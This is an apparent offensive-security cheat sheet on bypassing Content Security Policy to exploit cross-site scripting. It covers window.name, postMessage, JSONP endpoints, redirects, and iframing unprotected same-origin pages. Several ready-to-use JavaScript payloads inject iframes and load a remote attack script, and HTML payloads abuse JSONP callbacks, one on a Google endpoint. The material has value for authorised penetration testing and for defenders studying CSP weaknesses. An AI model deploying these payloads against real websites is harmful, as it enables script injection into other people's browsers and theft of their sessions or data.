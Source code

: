 ```yaml
---
title: Content Security Policy (CSP)
description: Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks.
badge: Web
---
```



CSP can be really anoying when trying to exploit XSSs. Here are a couple of ways to overcome this limitation.
First of all you can analyze the policy using the csp-evaluator by Google to quickly check what's available to you:

* [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com/)

CSP can be defined both as HTTP responese headers, and included inside `<meta>` like the following:

``` html
<meta http-equiv="Content-Security-Policy" content="default-src 'self' cdn.example.com;">
```

With HTML injection you could try to override declarations, but if you can't do that, a few of the following examples might help.

## Abusing `window.name`

> Can be abused on the most restricted CSP environments, but works **only in Chrome**.

Anything stored on the `name` / `window.name` variable will be shared between sites on the same browser tab. This menas that if _attacker-site_ sets the variable with any value, this will be preserved when redirected to a completely different site.

## Iframing non-protected pages

If you find an XSS vector in one resource but it's protected by CSP, there might be another resource on the same origin without said protections where you can inject arbitrary scripts using iframes.

> This should work on virtually every browser. The main drawback is the payload size, which depending on the resource you want to inject and the URL lenght for the script you want to load, might be longer than available for scenarios like stored XSS.

The idea is that, if you pop an XSS on the `/search` resource, you can use that to iframe and inject arbitrary scripts on a <smart-variable variable="non-protected-page" default-value="/robots.txt"></smart-variable> resource without CSP.

### Page has no iframes

A fairly short XSS payload would be the following:

<smart-tabs variable="unsafe-inline" :tabs="{'yes': 'Allows unsafe-inline', 'no': 'Doesn\'t allow unsafe-inline'}">
<template v-slot:yes>

``` js
f = document.createElement("iframe")
document.body.appendChild(f).src = "{{ non-protected-page /robots.txt }}"
f.onload = () => f.contentDocument.body.innerHTML = "&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
<template v-slot:no>

``` js
f = document.createElement("iframe")
document.body.appendChild(f).src = "{{ non-protected-page /robots.txt }}"
f.onload = () => f.contentDocument.body.appendChild(document.createElement("script")).src = '{{ remote-script //localhost:8888/attack.js }}'
```

</template>
</smart-tabs>

I'm using `<style onload=import` to load the script on the non-protected resource because it's a fairly short payload, but you can try any other payload.

### Page already has iframes

You the page you are injection on might already have an iframe; which reduces the payload size, specially if the source loaded by the iframe is not protected by CSP.

<smart-tabs variable="unsafe-inline" :tabs="{'yes': 'Allows unsafe-inline', 'no': 'Doesn\'t allow unsafe-inline'}">
<template v-slot:yes>

``` js
window.frames[{{ frame-number 0 }}].onload = (e) => e.target.body.innerHTML = "&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
<template v-slot:no>

``` js
window.frames[{{ frame-number 0 }}].onload = (e) => e.target.body.appendChild(document.createElement('script')).src='{{ remote-script //localhost:8888/attack.js }}'
```

</template>
</smart-tabs>

If you were to need a different source on the `iframe` your payload could look like the following following:

<smart-tabs variable="unsafe-inline" :tabs="{'yes': 'Allows unsafe-inline', 'no': 'Doesn\'t allow unsafe-inline'}">
<template v-slot:yes>

``` js
f = window.frames[{{ frame-number 0 }}]
f.src = "{{ non-protected-page /robots.txt }}"
f.onload = (e) => e.target.body.innerHTML = "&lt;style onload=import('{{ remote-script //localhost:8888/attack.js }}')>"
```

</template>
<template v-slot:no>

``` js
f = window.frames[{{ frame-number 0 }}]
f.src = "{{ non-protected-page /robots.txt }}"
f.onload = (e) => e.target.body.appendChild(document.createElement('script')).src='{{ remote-script //localhost:8888/attack.js }}'
```

</template>
</smart-tabs>

> Iframes have to be allowed for the resource, but if it has no CSP or overly-permissive CSP, it's unlikely that iframing is disallowed from the same origin.

## Abusing `postMessage`

Less of a pain to use than `window.name`, can be used in environments with a not as restrictive CSP. As an example, if `script-src` is restricted, it would be possible to load scripts by passing code through `postMessage`.

The idea is that you might not be able to load scripts from random sources, but you might be able to iframe random sources.

> Should work on any modern browser if allowed through the website's Content Security Policy

## Abusing JSONP

When no `unsafe-inline` is allowed, and only scripts served from a specific source can be loaded, there's still the possiblity of abusing JSONP endpoints if present.
Your XSS should look similar to the following:

``` html
<script src="{{ jsonp-endpoint /l/es.json?callback= }}{{ xss-payload alert(document.domain)} url }%2F%2F">
```

The JSONP endpoint can be located at any source allowed by the CSP.
There's a lot of publicly available endpoints from many interesting domains; for exaple, if `*.google.com` or `accounts.google.com` is allowed you could use the following:

``` html
<script src="https://accounts.google.com/o/oauth2/revoke?callback={{ xss-payload alert(document.domain)} url }%2F%2F">
```

There's plenty of such resources, you can find more on the following repo:

* [github.com/zigoo0/JSONBee](https://github.com/zigoo0/JSONBee)

Default JSONP endpoints provided by frameworks or stacked technologies, such as Wordpress, are usually protected against this, having many characters blocked by default. This means that if you are attacking a Wordpress site, it will most likely have an exposed JSONP endpoint, but it will be very difficult to abuse for this purpose. However, this is definetely doable with complex payloads using stuff like Same Origin Method Execution[^1][^2][^3]

## Bypass path restrictions with redirections

CSP allows you to also specify paths in order to restrict the sources where content can be loaded.
The paths are completely ignored after redirects, but any domain the browser requests must be allowed by the CSP.
If you have an open-redirect gadget, it might be useful for this.

[^1]: **Bypass CSP Using WordPress By Abusing Same Origin Method Execution** - [octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)
[^2]: **SOME Attack** - [www.someattack.com/Playground/About](https://www.someattack.com/Playground/About)
[^3]: #HITB2017AMS D2T1 - **Everybody Wants SOME: Advance Same Origin Method Execution** - Ben Hayak - [youtu.be/OvarkOxxdic](https://youtu.be/OvarkOxxdic)
